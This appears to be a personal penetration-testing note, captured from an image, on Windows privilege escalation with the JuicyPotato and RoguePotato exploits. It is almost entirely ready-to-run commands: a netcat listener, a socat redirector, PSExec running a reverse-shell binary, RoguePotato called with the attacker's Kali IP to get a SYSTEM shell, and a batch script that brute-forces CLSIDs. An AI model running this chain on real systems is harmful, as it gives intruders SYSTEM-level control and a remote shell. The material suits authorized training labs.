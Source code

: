 ```bash - kali
sudo rlwrap -cAr nc -lvnp 444
```

```batch - windows
JuicyPotato.exe -t * -p shell.bat -l 4444
```

#### Rogue Potato
Latest of the “Potato” exploits.

GitHub: [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)

Blog: [https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/)

Compiled Exploit:

[https://github.com/antonioCoco/RoguePotato/releases](https://github.com/antonioCoco/RoguePotato/releases)

1. Copy PSExec64.exe and the RoguePotato.exe exploit executable over to Windows.

2. Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows ($TARGET is the Windows IP):

```bash - windows
sudo socat tcp-listen:135,reuseaddr,fork tcp:$TARGET:9999
```

3. Start a listener on Kali.

![[1._rlwrap]]

4. Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account:

[[1._Reverse Shells (LIN)#MSFVenom]]

```batch - windows
C:\PrivEsc\PSExec64.exe /accepteula -i -u "ntauthority\local service" C:\PrivEsc\reverse.exe
```

5. Start another listener on Kali.

![[1._rlwrap]]

6. Now run the RoguePotato exploit to trigger a reverse shell running with SYSTEM privileges ($KALI is the Kali IP):

```batch - windows
C:\PrivEsc\RoguePotato.exe -r $KALI –l 9999 -e "C:\PrivEsc\reverse.exe"
```

#### test_clsid.bat

```batch - windows
@echo off
:: Starting port, you can change it
set /a port=10000
SETLOCAL ENABLEDELAYEDEXPANSION
FOR /F %%i IN (CLSID.list) DO (
 echo %%i !port!
 juicypotato.exe -z -l !port! -c %%i >> result.log
 set RET=!ERRORLEVEL!
 :: echo !RET!
 if "!RET!" == "1" set /a port=port+1
)
```
